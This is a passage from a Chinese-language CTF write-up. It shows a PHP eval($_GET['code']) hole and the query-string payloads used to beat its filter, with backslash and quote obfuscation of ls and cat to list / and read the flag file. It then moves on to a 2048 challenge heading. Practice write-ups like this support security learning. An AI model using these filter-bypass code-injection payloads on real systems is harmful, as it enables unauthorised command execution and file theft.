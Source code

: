 ```
eval($_GET['code']);  // 用户输入直接被当作PHP代码执行
```

过滤了很多，但是没有过滤/

于是构造

```
?code=printf(`l\s /`);
?code=printf(`l''s /`);
```

![image-20250806170530293](./NSSCTF-4.assets/image-20250806170530293.png)

```
?code=printf(`c\at /fffffffffflagafag`);
?code=printf(`c''at /fffffffffflagafag`);
```

![image-20250806170656318](./NSSCTF-4.assets/image-20250806170656318.png)

# [HNCTF 2022 Week1]2048

![image-20250806173222074](./NSSCTF-4.assets/image-20250806173222074.png)
